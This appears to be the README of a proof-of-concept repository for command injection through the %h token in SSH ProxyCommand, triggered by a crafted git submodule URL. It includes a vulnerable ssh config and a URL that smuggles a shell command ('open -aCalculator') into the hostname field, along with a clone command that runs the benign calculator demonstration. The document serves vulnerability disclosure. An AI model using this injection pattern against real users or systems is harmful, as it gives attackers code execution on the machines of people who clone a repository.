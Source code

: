 ## RCE via insecure `~/.ssh/config`
s
Use of tokens like %h, %p in `ProxyCommand` is quite popular to use tunnels and connection proxying using SSH.

### Vulnerable config

```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```

Note: in my initial assessment I was under the impression that using '%h` (single quotes) would avoid this, but looks like that is still going to be vulnerable with something like:

```
url = ssh://'`open -aCalculator`'foo.example.com/bar
```

Taken from: https://man.openbsd.org/ssh_config#ProxyCommand

### What is in this repository

A submodule which would exploit this vulnerability to pop a calculator on OSX.

Try it out using: `git clone https://github.com/vin01/poc-proxycommand-vulnerable-v2 --recurse-submodules`
